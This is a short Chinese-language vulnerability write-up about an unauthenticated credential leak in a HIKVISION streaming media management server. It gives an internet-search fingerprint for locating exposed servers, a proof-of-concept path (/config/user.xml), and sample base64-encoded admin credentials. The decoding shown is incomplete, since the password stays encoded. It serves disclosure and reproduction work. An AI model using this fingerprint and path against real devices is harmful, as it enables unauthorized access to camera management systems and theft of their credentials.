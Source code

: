 # HIKVISION 流媒体管理服务器 user.xml 账号密码泄漏漏洞

# HIKVISION 流媒体管理服务器 user.xml 账号密码泄漏漏洞

## 漏洞描述

HIKVISION 流媒体管理服务器配置文件未做鉴权，攻击者通过漏洞可以获取网站账号密码

## 漏洞影响

```
HIKVISION 流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登陆页面

![image-20220519172629739](/images/202205191726829.png)

POC

```
/config/user.xml
```

![image-20220519172714407](/images/202205191727443.png)

```
<user name="YWRtaW4=" password="MTIzNDU="/>
```

base64解密

```
<user name="admin" password="MTIzNDU="/>
```


